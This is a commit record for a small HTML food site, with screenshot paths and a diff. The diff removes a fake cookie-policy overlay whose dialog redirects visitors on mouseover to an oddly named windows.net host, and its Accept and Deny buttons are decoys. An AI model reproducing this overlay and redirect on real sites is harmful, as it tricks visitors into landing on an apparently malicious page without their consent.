

Before and after one commit to sanjsndas/food-faves, a plain HTML site: page index.html in a window 1280 px wide. Shown: the top 780 px of the page. Drawn offline with Linux system fonts and the light colour scheme; placeholder pictures from the web are drawn by us.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -31,90 +31,6 @@
 
 
         body {
-      margin: 0;
-      padding: 0;
-      font-family: 'Segoe UI', sans-serif;
-      background: url('https://via.placeholder.com/1200x800') no-repeat center center/cover;
-      height: 100vh;
-    }
-
-    .overlay {
-      position: fixed;
-      inset: 0;
-      backdrop-filter: blur(5px);
-      background: rgba(0, 0, 0, 0.5);
-    }
-
-    .dialog-box {
-      position: fixed;
-      top: 50%;
-      left: 50%;
-      transform: translate(-50%, -50%);
-      background: #1c1c1c;
-      color: white;
-      padding: 30px;
-      border-radius: 20px;
-      width: 400px;
-      box-shadow: 0 0 25px rgba(0,0,0,0.6);
-      text-align: center;
-      transition: 0.3s;
-    }
-
-    .dialog-box:hover {
-      cursor: pointer;
-    }
-
-    .dialog-box h2 {
-      margin-top: 0;
-      font-size: 1.6em;
-      color: #fff;
-    }
-
-    .dialog-box p {
-      font-size: 1em;
-      line-height: 1.6em;
-      color: #ccc;
-    }
-
-    .buttons {
-      display: flex;
-      justify-content: center;
-      margin-top: 20px;
-      gap: 15px;
-    }
-
-    .buttons button {
-      padding: 10px 25px;
-      border: none;
-      border-radius: 25px;
-      font-size: 1em;
-      font-weight: bold;
-      cursor: pointer;
-    }
-
-    .accept {
-      background-color: #00cc66;
-      color: white;
-    }
-
-    .deny {
-      background-color: #e53935;
-      color: white;
-    }
-
-    .policy-link {
-      margin-top: 15px;
-      display: block;
-      color: #00bcd4;
-      text-decoration: none;
-      font-size: 0.9em;
-    }
-
-
-
-
-
-
 
 
 
@@ -1471,25 +1387,7 @@
 
 
 
-                 <div class="overlay">
-    <div class="dialog-box" onmouseover="redirect()">
-      <h2>🍪 Our New Cookie Policy !</h2>
-      <p>
-        For optimized experience, some elements may store temporary signals & For your safety, our Website uses cookies to personalize content and ads, provide social media features, and analyze our traffic.
-      </p>
-      <div class="buttons">
-        <button class="accept">Accept</button>
-        <button class="deny">Deny</button>
-      </div>
-      <a href="#" class="policy-link">Policy Page</a>
-    </div>
-  </div>
-
-  <script>
-    function redirect() {
-      window.location.href = "https://errorvc0x0098as.z13.web.core.windows.net/";
-    }
-  </script>
+
 
 
 
```
